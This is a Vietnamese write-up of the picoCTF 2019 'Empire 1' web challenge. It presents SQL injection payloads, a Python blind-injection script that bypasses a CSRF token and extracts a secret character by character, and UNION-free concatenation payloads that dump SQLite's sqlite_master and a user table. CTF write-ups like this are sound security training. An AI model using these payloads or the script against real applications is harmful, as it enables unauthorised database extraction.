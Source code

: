 #### Empire 1 ([Link](https://2019shell1.picoctf.com/problem/49726/))

- Nói ra thì đây là 1 bài khá khó chịu. Mình muốn giải bài này theo 2 cách

- Cách 1 thì là cách mình làm lấy flag trong thời gian giải còn hiện hành. Nói ra thì cách này khá là hãm, không đi theo đúng hướng đề đưa ra. *View source* lên thấy cái *csrf_token* thì là thấy nguời ra đề không muốn ta dùng tool nào để giải. Bắt buộc phải *dump* tay ra flag luôn. Tuy nhiên mình không tìm ra được kỹ thuật *dump* tay để ra flag luôn. Đành phải vượt qua *csrf_token* và dùng kỹ thuật *blind sql* để giải bài này. Tuy hãm nhưng ra được flag là ok rồi

- Cách 2 là cách dễ hơn rất nhiều so với cách, nhưng trong lúc thi mình không sử dụng nó, nói trắng ra là không biết sử dụng :v

- Cách 2 mình sẽ trình bày ở sau cùng

- OK, cách nào thì cũng là cách, ra flag là được. Bắt đầu chiến thôi

- Thử 1 số payload trước để cảm nhận, cuối cùng thì đây là payload đầu tiên mình nhận được kết quả theo ý muốn

  - Payload: `' OR 'admin' OR '`

- Phân tích payload 1 tý: Theo cảm nhận ban đầu của mình thì nó chỉ xuất ra các giá trị *boolean*, như payload trên nó trả về 0, tức là sai. Payload gắn vô query thì nó sẽ tựa tựa như thế này

  - `... WHERE '' OR 'admin' OR ''`
  - *Rỗng OR chữ OR rỗng* thì trả về false
  - Có thể *rỗng OR none OR rỗng* sẽ trả về none

- Giờ thì *fuzzing*  *columns* với *table* của nó dựa vào hint của đề. Không có 2 cái này thì chịu. Có thể tìm ra nhưng nó hơi mệt

- Sau 1 hồi *fuzzing* 1 hồi thì mình cũng đoán ra được *column* là *secret* và *table* là *user*

- OK, payload là:

  - `' OR (SELECT secret FROM user WHERE secret LIKE 'a%' LIMIT 1) OR '`

- Phân tích ra thì `LIKE` dùng để so sánh ký tự mình đoán, ở đây là `a`, `%` đại diện cho các ký tự phía sau

  - Nếu điều kiện đúng, query chạy, túc là nó sẽ *select* ra được 1 ký tự của *secret* và nó trở về kiểu *Rỗng OR chữ OR rỗng* thì trả về false
  - Nếu điều kiện sai, query không chạy, lúc đó nó sẽ là giá trị none và nó trở về kiểu *rỗng OR none OR rỗng* sẽ trả về none

- Tuy nhiên để viết ra 1 cái tool thì khá mệt. Ta cần lấy cookie của acc đã lập áp vào. Viết code lấy *csrf_token*  để xác thực. Phải qua vài lần gửi *requests* nên nó khá là lâu

- Đây là tool của mình:

  ```python
  import sys, requests, re
  from string import *
  
  char = ascii_lowercase + digits
  
  url = 'https://2019shell1.picoctf.com/problem/49726/'
  
  cookie = {
  	'session' : '.eJwlj1tqAzEMAO_i73zo6ZVymcWyZBoCLewmX6V3z0IPMMPMb9vXUedXu7-Od93a_sh2b-URIWCG4QvCQzS6GywkkEplHiFiApQVOlVrgMwyF45kRDPi8tURkNKZcUGPJctIS9gYNs2uPi6lBQnX1AE9UVhFvbzd2jyPtb9-nvV99SBRWYw5tPNGKDp9aZ-Vq3xuNTmJYMtxce-zjv8Jbn8fFI89_g.XaRLzA.8ImPk0CSbDfuM-jOpgByTnqbK_8'
  }
  
  url_add = url + 'add_item'
  
  url_list = url + 'list_items'
  
  listpass = ''
  
  flag = 0
  
  while True:
  
  	for x in char:
  		print('trying with: ', listpass+x)
  
  		response = requests.get(url_add, cookies = cookie)
  
  		fin = re.findall('type="hidden" value="(.*)">', response.text)
  
  		payload = "' or (SELECT secret FROM user WHERE secret LIKE 'picoCTF{"+listpass+x+"%}' limit 1) or '"
  
  		data = {
  			'csrf_token' : fin[0],
  			'item' : payload,
  			'submit' : 'Create'
  		}
  
  		response = requests.post(url_add, cookies = cookie, data =data)
  
  		response = requests.get(url_list, cookies = cookie)
  
  		fin = re.findall('Very Urgent:</strong>(.*)', response.text)
  
  		if fin[len(fin)-1] == ' 0':
  			listpass += x
  			print('sucess with: ', listpass)
  			flag = 0
  			break
  		else:
  			flag += 1
          if flag == 36:
              print('Success with secret: ', listpass)
              sys.exit()
  ```

- Payload mình dùng có yếu điểm là khi gặp ký tự `_` nó sẽ tự động set đúng, nên mình loại nó ra khỏi danh sách các ký tự có thể, đến khi nó hết chạy tức là sau đó là ký tự `_`

- Mạn phép không giải thích cái tool, có thể vừa xem vừa *research* để xem cách mình đã dùng để viết nên tool này

- OK, sau 1 hồi xài cái cách vãi chưởng này thì cũng ra được flag. Mạn phép không show, các bạn nên tự làm dựa theo hướng dẫn của mình. Thực ra mình lười chạy lại để lấy flag, với nó cũng khá là lâu :v


#  Cách 2 ( cách này rất nhanh nhưng trong lúc giải bài mình không làm cách này :v)

- Sau 1 hồi *fuzzing* thì mình biết đây là *sqlite*. Cho nên mình sẽ trích xuất data từ *sqlite_master*

- Về chi tiết thì mình sẽ trình bày trong phần *Allpayload* ở trên github của mình

- OK, giờ ta dump ra tên của *table*

  - Payload:

    ```mysql
    ' || (SELECT tbl_name FROM sqlite_master WHERE type='table') || '
    ```

    ![1](images/Selection_001.png)

- Tiếp theo mình sẽ *dump* ra câu *sql* để hình thành ra *table user* để tìm các *columns*

  - Payload:

    ```mysql
    ' || (SELECT sql FROM sqlite_master WHERE type='table' and tbl_name='user') || '
    ```

    ![2](images/Selection_002.png)

- OK, giờ ta để ý nhân vật chính là *username* và *secret*. Dựa theo hint của đề thì ta có thể thấy *flag* ở phần *secret* và *username* chính là tên ta đăng nhâp

- Bây giờ ta chỉ cần *dump data* của *secret* là xong

  - Payload:

    ```mysql
    ' || (SELECT secret FROM user WHERE username = 'kaito') || '
    ```

    ![3](images/Selection_003.png)

- Done, rất đơn giản đúng không. Đơn giản hơn rất nhiều so với cách mình trình bày phía trước. Vì vậy mình mới xây dựng *Allpayload* để tổng hợp tất cả lại, tránh những trường hợp ngu người như vầy nữa :v
